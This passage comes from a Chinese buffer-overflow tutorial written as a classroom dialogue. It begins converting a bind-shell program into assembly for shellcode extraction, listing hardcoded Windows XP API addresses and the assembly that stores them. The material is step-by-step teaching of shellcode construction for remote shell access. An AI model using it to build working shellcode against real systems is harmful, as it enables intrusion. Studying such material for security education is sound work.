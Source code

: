 ### 3.4.1 转换成汇编

老师说：“我们还是和以前一样，先根据功能写出汇编，再提取 ShellCode。”

“哦，这样有点麻烦！”玉波有点不情愿。

“虽然这样比较麻烦，但能让我们深刻理解系统是如何执行程序的。以后再讲提取的改进方法吧！”老师说道，“首先，我们把双管道后面程序 pipe2.cpp 改写成汇编。”

“第一、我们先不考虑通用性。把所有要使用的函数地址都找出来，修改那个地址查找程序——GetAddr.cpp，查找 pipe2.cpp 中要用的函数地址。在 Windows XP SP0 下，程序 GetBindAddr.cpp 的执行结果如图 3－23。”

![](img/Q 版缓冲区溢出教程 91106.jpg)

“这里改成用 XP 系统了啊？”大家觉得奇怪，“之前都是 Windows 2000 的嘛！”

“这里换个系统，是不要让大家对系统版本有依赖性。其实，前面我们讨论的方法都是通用的。”老师说道，“所以无论是 Win2000 还是 XP，除地址不同外，后面的方法是完全一样的。好，我们把找到的函数地址抄下来。如下：”

```
CreatePipe = //x77e5727a
CreateProcessA = //x77e41bb8
PeekNamedPipe = //x77e97624
WriteFile = //x77e59d8c
ReadFile = //x77e58b82
ExitProcess = //x77e55cb5
socket = //x71a23c22
bind = //x71a23ece
listen = //x71a25de2
accept = //x71a2868d
send = //x71a21af4
recv = //x71a25690 
```

“在汇编程序中，依次将函数的地址保存如下：”

```
mov eax,0x77e5727a
mov [ebp+4],  eax;     CreatePipe
mov eax,0x77e41bb8
mov  [ebp+8],  eax;  CreateProcessA
mov eax,0x77e97624
mov  [ebp+12], eax;   PeekNamedPipe
mov eax,0x77e59d8c
mov  [ebp+16], eax;   WriteFile
mov eax,0x77e58b82
mov  [ebp+20], eax;   ReadFile
mov eax,0x77e55cb5
mov  [ebp+24], eax;   ExitProcess
mov eax,0x71a241da
mov  [ebp+28], eax;   WSAStartup
mov eax,0x71a23c22
mov  [ebp+32], eax;   socket
mov eax,0x71a23ece
mov  [ebp+36], eax;   bind
mov eax,0x71a25de2
mov  [ebp+40], eax;   listen
mov eax,0x71a2868d
mov  [ebp+44], eax;   accept
mov eax,0x71a21af4
mov  [ebp+48], eax;   send
mov eax,0x71a25690
mov  [ebp+52], eax;   recv 
```
